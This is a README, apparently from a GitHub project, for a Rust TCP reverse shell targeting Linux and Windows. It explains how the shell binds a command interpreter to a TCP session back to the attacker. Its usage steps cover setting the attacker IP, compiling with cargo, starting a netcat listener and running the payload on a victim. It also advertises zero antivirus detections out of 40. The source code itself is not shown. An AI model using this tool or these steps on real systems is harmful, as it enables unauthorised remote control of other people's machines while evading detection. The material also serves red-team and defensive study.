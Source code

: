# RCO: TCP Reverse Shell

[![Custom badge](https://img.shields.io/endpoint?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkmanc%2Fremote_code_oxidation%2Fmaster%2F.custom_shields%2Ftcp_reverse_shell.json)](https://github.com/kmanc/remote_code_oxidation/tree/master/tcp_reverse_shell)

Linux target               |  Windows target
:-------------------------:|:-------------------------:
![gif](https://user-images.githubusercontent.com/14863147/151044738-72dbec76-73b1-47c5-831a-2e995673b559.gif)  |  ![gif](https://user-images.githubusercontent.com/14863147/151058869-8e5e9f6e-3f7b-4a98-ab65-2ac5017a4e76.gif)


## How it works

The reverse shells for both Linux and Windows work by establishing a [Transmission Control Protocol (TCP) session](https://www.scottklement.com/rpg/socktut/overview.html) from the victim machine to the attacking machine. Then a Terminal (Linux) or Command Prompt (Windows) process starts with its [standard input](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)), [standard output](https://en.wikipedia.org/wiki/Standard_streams#Standard_output_(stdout)), and [standard error](https://en.wikipedia.org/wiki/Standard_streams#Standard_error_(stderr)) all assigned to the TCP session. This means that input commands and output results are read from and written to (respectively) the TCP stream.


## Using it

1. [Not shown in GIF] Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/rco_config/src/lib.rs) 
and change the IP address and port to match the IP address of your attacking machine and the port you will use for a listener respectively
2. [Not shown in GIF] Compile the executable

    #### For Linux targets
    ```commandline
    cargo build -p tcp_reverse_shell --release
    ```

    #### For Windows targets
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p tcp_reverse_shell --release
    ```
3. Start a netcat listener on the attacking machine on the same port you configured in step 1
    ```commandline
    nc -nlvp 4444
    ```
4. Execute the payload on the victim machine
5. Return to the listener and enter desired commands for the victim machine to run


## Detection rates

[Linux - 0 / 40](https://kleenscan.com/scan_result/fb860f5b0e4f835412787d3e20c6d9129bdc4c4bd87b67966aae2f5efa0973f1) | [Windows - 0 / 40](https://kleenscan.com/scan_result/a6cd65ff1dd24cf60a9b39a77c8ccb96fe1d27528857fa4754e70bf4578bcf11)
:-------------------------:|:-------------------------:
![image](https://user-images.githubusercontent.com/14863147/151747364-7edb7792-cb7e-421b-8235-8db5d9825211.png) | ![image](https://user-images.githubusercontent.com/14863147/151747339-6c9036e5-ed2e-473e-b92d-b8c1ac8c66a5.png)

